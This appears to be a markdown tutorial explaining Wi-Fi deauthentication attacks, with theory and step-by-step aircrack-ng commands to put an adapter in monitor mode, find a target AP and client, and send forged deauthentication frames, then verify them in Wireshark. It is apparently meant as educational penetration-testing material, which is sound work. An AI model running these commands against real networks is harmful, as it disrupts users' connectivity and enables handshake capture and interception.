 # Deauthentication Attack

## Theory
Deauthentication attacks exploit vulnerabilities in the 802.11 Wi-Fi protocol, specifically in the management frames. These frames are responsible for maintaining the connection between a client (station) and an Access Point (AP). Since management frames are not encrypted, they can be easily spoofed by an attacker.

By sending forged deauthentication frames, an attacker can force a client to disconnect from the AP. This can be used for:
- **Man-in-the-Middle (MITM) attacks**: Forcing a client to reconnect to a rogue AP.
- **Capturing WPA handshakes**: Useful for cracking WPA/WPA2 passwords.
- **Denial of Service (DoS)**: Disrupting network connectivity.

Deauthentication attacks are particularly effective in public Wi-Fi networks where encryption is weak or absent.

## Tools Required
- `aircrack-ng` suite (includes `airodump-ng` and `aireplay-ng`)
- `Wireshark` for traffic analysis and verification
- A wireless network adapter capable of monitor mode and packet injection

## Steps to Perform Deauthentication Attack

### Step 1: Enable Monitor Mode
First, enable monitor mode on your wireless interface. This allows you to capture and inject packets.

```bash
sudo airmon-ng start wlan0
```

Expected output:
```
Interface   Chipset         Driver
wlan0       Atheros         ath9k - [phy0]
                (monitor mode enabled on wlan0mon)
```

### Step 2: Capture Wireless Traffic
Use `airodump-ng` to scan for available networks and identify the target AP and client.

```bash
sudo airodump-ng wlan0mon
```

Expected output:
```
 BSSID              PWR  Beacons  #Data, #/s  CH  MB   ENC  CIPHER  AUTH ESSID
 00:14:6C:7E:40:80  -50      100     50    0   6  54e  WPA2  CCMP    PSK  MyWiFi

 STATION            PWR   Rate   Lost  Frames  Probe
 00:25:9C:CF:1C:9E  -40   36e     0     200   MyWiFi
```

- **BSSID**: MAC address of the AP.
- **STATION**: MAC address of the client.

### Step 3: Launch Deauthentication Attack
Send deauthentication frames to disconnect the client from the AP.

```bash
sudo aireplay-ng -0 10 -a [AP_MAC] -c [CLIENT_MAC] wlan0mon
```

- `-0 10`: Sends 10 deauthentication packets.
- `-a [AP_MAC]`: MAC address of the target AP.
- `-c [CLIENT_MAC]`: MAC address of the client.

Expected output:
```
Sending 10 deauthentication frames
```

### Step 4: Verify the Attack
Use `Wireshark` to monitor the traffic and confirm that deauthentication frames are being sent.

```bash
sudo wireshark
```

Filter for deauthentication frames:
```
wlan.fc.type_subtype == 0x0c
```

Expected output:
You should see multiple deauthentication frames in the packet capture.

### Notes
- Ensure you have permission to perform this attack on the target network.
- Use this technique responsibly for educational or authorized penetration testing purposes only.
